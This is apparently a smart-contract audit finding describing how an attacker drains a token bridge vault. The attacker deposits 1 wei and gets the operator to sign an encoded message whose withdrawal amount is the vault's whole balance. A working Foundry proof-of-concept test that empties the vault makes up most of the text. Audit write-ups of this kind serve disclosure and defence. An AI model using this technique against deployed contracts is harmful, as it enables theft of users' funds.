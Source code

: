 
Steps:
- Attacker deposits 1 wei (or 0 wei) into the L2 bridge.
- Attacker crafts and encodes a  malicious message and submits it to the `operator` to be signed by him. The malicious message has `amount` field set to a high value, like the total funds available in the `vault`.
- Since the attacker had deposited 1 wei, operator approves & signs the message, not knowing the contents of it since it is encoded.
- Attacker calls `withdrawTokensToL1()`. 
- All vault's funds are transferred to the attacker.

## Vulnerability Details
The following PoC shows the above attack vector by draining all the funds from the vault.

- Paste the following test inside `test/L1TokenBridge.t.sol`
- Run with `forge test --mt test_t0x1cSimpleVaultCleaner -vv`

```js
    function test_t0x1cSimpleVaultCleaner() public {
        // Assume `vault` has some funds in it via deposits from other
        // users. We'll steal all funds in the attack.
        uint256 vaultInitialBalance = token.balanceOf(address(vault));
        deal(address(token), address(vault), 100 ether);
        assertEq(token.balanceOf(address(vault)), vaultInitialBalance + 100 ether);

        //==================================//
        //======= NORMAL USER FLOW =========//
        //==================================//
        vm.startPrank(user);
        uint256 depositAmount = 1 wei;
        uint256 userInitialBalance = token.balanceOf(address(user));
        token.approve(address(tokenBridge), depositAmount);
        tokenBridge.depositTokensToL2(user, userInL2, depositAmount);
        assertEq(token.balanceOf(address(vault)), vaultInitialBalance + 100 ether + depositAmount);
        assertEq(token.balanceOf(address(user)), userInitialBalance - depositAmount);
        //==================================//

        //==================================//
        //============= ATTACK =============//
        //==================================//
        // @audit-info : craft a `maliciousMessage` which has amount = vault's balance
        uint256 vaultBalance = token.balanceOf(address(vault));
        bytes memory maliciousMessage = abi.encode(
            address(token), // target
            0, // value
            abi.encodeCall(IERC20.transferFrom, (address(vault), user, vaultBalance)) // data
        );
        vm.stopPrank();

        // `operator` signs the message off-chain since `user` had deposited 1 wei earlier into the L2 bridge
        (uint8 v, bytes32 r, bytes32 s) = _signMessage(maliciousMessage, operator.key);

        vm.startPrank(user);
        // @audit-info : call `withdrawTokensToL1()` with `maliciousMessage`
        tokenBridge.withdrawTokensToL1(user, vaultBalance, v, r, s);
        vm.stopPrank();

        assertEq(token.balanceOf(address(vault)), 0);
        assertEq(token.balanceOf(user), userInitialBalance - depositAmount + vaultBalance);
    }
```
